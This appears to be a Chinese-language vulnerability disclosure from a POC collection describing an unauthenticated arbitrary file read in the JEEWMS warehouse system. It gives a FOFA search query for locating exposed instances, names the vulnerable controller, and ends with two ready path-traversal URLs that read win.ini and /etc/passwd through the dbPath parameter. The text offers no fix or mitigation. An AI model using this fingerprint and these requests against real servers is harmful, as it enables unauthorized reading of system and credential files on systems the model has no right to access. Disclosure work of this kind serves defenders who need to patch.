



## **JEEWMS存在未授权任意文件读取漏洞**

## 漏洞描述

**JEEWMS存在未授权任意文件读取漏洞**

## 漏洞影响

> JEEWMS全版本

## FOFA

> body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body="仓"

## 漏洞复现

漏洞代码：

**org.jeecgframework.web.system.controller.core.SystemController**



可以看到dbpath可被控制，最终读取路径为：系统配置路径+dbpath

这样的读取方式可被../../控制路径，造成任意文件读取，同时该接口未做权限验证，可未授权任意文件读取 

##POC:

```
http://x.x.x.x:8088/systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini 
```



```
http://x.x.x.x:8020/systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd 
```

